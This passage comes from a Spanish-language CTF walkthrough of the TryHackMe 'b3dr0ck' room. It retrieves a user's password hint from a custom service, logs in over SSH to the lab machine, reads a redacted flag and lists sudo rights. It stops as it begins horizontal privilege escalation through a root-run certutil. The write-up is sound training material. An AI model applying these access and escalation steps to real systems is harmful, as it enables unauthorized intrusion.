 ```console
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> ls
Unrecognized command: 'ls'

This service is for login and password hints
b3dr0ck> help
Password hint: d1ad7c0[...]4180dd (user = 'Barney Rubble')
b3dr0ck>
```

OK, tenemos la contraseña del usuario *barney*. Tiramos del **ssh** que tenemos disponible en el puerto *22/tcp* para conectarnos.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/b3dr0ck]
└─$ ssh barney@10.10.40.42
The authenticity of host '10.10.40.42 (10.10.40.42)' can't be established.
ED25519 key fingerprint is SHA256:CFTFQcdE19Y7z0z2H7f+gsTTUaLOiPE1gtFt0egy/V8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.40.42' (ED25519) to the list of known hosts.
barney@10.10.40.42's password:
barney@b3dr0ck:~$ pwd
/home/barney
barney@b3dr0ck:~$ ls
barney.txt
barney@b3dr0ck:~$ cat barney.txt
THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
barney@b3dr0ck:~$
```

Tenemos la primer flag correspondiente al usuario *barney*. Seguimos.

```console
barney@b3dr0ck:~$ cd ..
barney@b3dr0ck:/home$ ls
barney  fred
barney@b3dr0ck:/home$ cd fred
barney@b3dr0ck:/home/fred$ ls
fred.txt
barney@b3dr0ck:/home/fred$ cat fred.txt
cat: fred.txt: Permission denied
barney@b3dr0ck:/home/fred$
```

Necesitamos hacer un escalado de privilegios horizonal.

## Escalado de privilegios horizonal

Veamos qué binarios puede ejecutar *barney* con privilegios de root.

```console
barney@b3dr0ck:/home/fred$ cd ..
barney@b3dr0ck:/home$ sudo -l
[sudo] password for barney:
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:/home$
```
